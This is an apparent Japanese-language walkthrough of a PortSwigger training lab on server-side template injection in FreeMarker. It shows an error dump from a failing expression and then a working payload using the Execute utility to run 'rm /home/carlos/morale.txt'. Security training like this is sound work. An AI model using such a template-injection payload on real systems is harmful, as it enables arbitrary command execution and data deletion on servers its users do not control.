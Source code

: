 # ドキュメントを使用したサーバー側のテンプレートインジェクション

次のハッキングラボを実施します  
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation  
このラボはサーバー側のテンプレート インジェクションに対して脆弱です。

- 1. ハッキングラボにアクセスします
- 2. ブログ管理者としてログインします
- 3. ブログの記事編集ページを開きます

* 4. 記事に評価に失敗する式を挿入して、Preview ボタンを押すと、freemaker によるエラーが出力されます

```
<p>BURP is a newly available wind suppressant that will protect you in all those potentially embarrassing situations. This is the only protection proven to work following a study of one hundred users. A delicious sweet that never dissolves, it will constantly protect you in the background as you go about your day.</p> <p>The first long-term solution to hiccups, that can really bring you down and get in the way of productivity. BURP is the latest brand on everyone's lips and we want to celebrate our success with you by offering you peace of mind, and a money back guarantee if your wind isn't kept in check.</p> <p>BURP's ultra-sensitive technology can also detect when wind is on its way, you never need to get caught out again, the sweet releases extra chemicals to identify the problem area and hit the spot before the wind can work its way up to your mouth. With zero sugar we ensure your teeth won't suffer while using our product, if anything your smile will be bigger and brighter as all the stress leaves your body (1 out of 8 users agree).</p> <p>Hurry! Only 582 left of BURP Protection at $21.40.</p>FreeMarker template error (DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> test [in template "freemarker" at line 4, column 83] ---- Tip: If the failing expression is known to legally refer to something that's sometimes null or missing, either specify a default value like myOptionalVar!myDefault, or use <#if myOptionalVar??>when-present<#else>when-missing</#if>. (These only cover the last step of the expression; to cover the whole expression, use parenthesis: (myOptionalVar.foo)!myDefault, (myOptionalVar.foo)?? ---- ---- FTL stack trace ("~" means nesting-related): - Failed at: ${test} [in template "freemarker" at line 4, column 81] ---- Java stack trace (for programmers): ---- freemarker.core.InvalidReferenceException: [... Exception message was already printed; see it above ...] at freemarker.core.InvalidReferenceException.getInstance(InvalidReferenceException.java:134) at freemarker.core.EvalUtil.coerceModelToTextualCommon(EvalUtil.java:479) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:401) at freemarker.core.EvalUtil.coerceModelToStringOrMarkup(EvalUtil.java:370) at freemarker.core.DollarVariable.calculateInterpolatedStringOrMarkup(DollarVariable.java:100) at freemarker.core.DollarVariable.accept(DollarVariable.java:63) at freemarker.core.Environment.visit(Environment.java:331) at freemarker.core.Environment.visit(Environment.java:337) at freemarker.core.Environment.process(Environment.java:310) at freemarker.template.Template.process(Template.java:383) at lab.actions.templateengines.FreeMarker.processInput(FreeMarker.java:58) at lab.actions.templateengines.FreeMarker.act(FreeMarker.java:42) at lab.actions.common.Action.act(Action.java:57) at lab.actions.common.Action.run(Action.java:39) at lab.actions.templateengines.FreeMarker.main(FreeMarker.java:23)
```

- 5. freemaker の faq より、ユーザーによるテンプレートアップロードの脆弱性に対する説明が確認できます
     https://freemarker.apache.org/docs/app_faq.html#faq_template_uploading_security

- 6. utility の Execute 関数で任意のコマンドが実行できるため、記事に以下の命令を仕込みます

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```

- 7.プレビューボタンを押すと上記コマンドが実行されてファイルが削除されます
